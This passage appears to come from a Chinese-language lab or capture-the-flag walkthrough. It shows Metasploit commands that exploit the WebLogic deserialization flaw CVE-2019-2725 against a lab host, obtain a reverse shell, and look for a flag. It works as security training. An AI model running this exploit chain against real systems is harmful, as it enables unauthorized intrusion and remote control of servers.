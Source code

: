 #### 攻破2、3、4靶标
* 由于我们处于上帝视角，我们直到第二层主机存在weblogic漏洞，所以我们直接通过exploit进行攻击
*  搜索weblogic漏洞：
```bash
search cve-2019-2725
use exploit/multi/weblogic/weblogic_deserialization_asyncresponseservice ## 选择weblogic_deserialization_asyncresponseservice这个exp
show options ## 查看参数
set RHOSTS 192.170.84.2 ## 攻击目标
set lport 7001
set lhost 192.168.70.7
run -j
```
![](./images/该第三个靶机启用参数.png)
![](./images/启用wda获得第三个反弹shell.png)
```bash
sessions -i 3

ls /tem ## 查看flag
```